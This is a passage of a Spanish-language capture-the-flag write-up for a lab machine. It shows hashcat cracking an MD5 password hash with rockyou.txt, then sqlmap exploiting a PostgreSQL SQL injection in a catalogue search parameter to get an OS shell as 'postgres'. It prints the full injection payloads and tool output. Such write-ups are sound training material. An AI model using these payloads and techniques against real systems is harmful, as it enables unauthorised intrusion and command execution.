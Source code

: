``` shell
┌──(kali㉿kali25)-[~]
└─$ hashcat -m 0 2cb42f8734ea607eefed3b70af13bbd3 /usr/share/wordlists/rockyou.txt 
2cb42f8734ea607eefed3b70af13bbd3:qwerty789

```
>qwerty789

 Task 6

What option can be passed to sqlmap to try to get command execution via the sql injection? 

Nos podemos logear con las credenciales obtenidas y vemos una web con un buscador parece un catálogo, según lo indicado deberíamos buscar un sqli. 

``` html
MegaCorp Car Catalogue
Elixir 	Sports 	Petrol 	2000cc
Sandy 	Sedan 	Petrol 	1000cc
Meta 	SUV 	Petrol 	800cc
Zeus 	Sedan 	Diesel 	1000cc
Alpha 	SUV 	Petrol 	1200cc
Canon 	Minivan 	Diesel 	600cc
Pico 	Sed 	Petrol 	750cc
Vroom 	Minivan 	Petrol 	800cc
Lazer 	Sports 	Diesel 	1400cc
Force 	Sedan 	Petrol 	600cc
```
Así que lanzamos sqlmap y vemos si conseguimos ejecutar el  ```--os-shell```
``` shell
┌──(kali㉿kali25)-[~]
└─$ sqlmap -u http://10.129.95.174/dashboard.php?search=MegaCorp --os-shell --flush-session --cookie="PHPSESSID=6vf4v6ojpk569pc630g0l416ea"
[21:52:34] [INFO] GET parameter 'search' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 48 HTTP(s) requests:
---
Parameter: search (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=MegaCorp';SELECT PG_SLEEP(5)--

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=MegaCorp' UNION ALL SELECT NULL,NULL,(CHR(113)||CHR(120)||CHR(98)||CHR(112)||CHR(113))||(CHR(107)||CHR(75)||CHR(114)||CHR(75)||CHR(86)||CHR(71)||CHR(121)||CHR(101)||CHR(75)||CHR(102)||CHR(99)||CHR(97)||CHR(79)||CHR(120)||CHR(79)||CHR(75)||CHR(108)||CHR(78)||CHR(97)||CHR(87)||CHR(110)||CHR(90)||CHR(99)||CHR(114)||CHR(103)||CHR(102)||CHR(79)||CHR(108)||CHR(83)||CHR(109)||CHR(78)||CHR(99)||CHR(83)||CHR(102)||CHR(89)||CHR(76)||CHR(111)||CHR(99)||CHR(104)||CHR(112))||(CHR(113)||CHR(120)||CHR(107)||CHR(106)||CHR(113)),NULL,NULL-- zpIP
---
[21:52:43] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[21:52:44] [INFO] fingerprinting the back-end DBMS operating system
[21:52:44] [INFO] the back-end DBMS operating system is Linux
[21:52:44] [INFO] testing if current user is DBA
[21:52:45] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[21:52:45] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] 

command standard output: 'postgres'
os-shell> 
```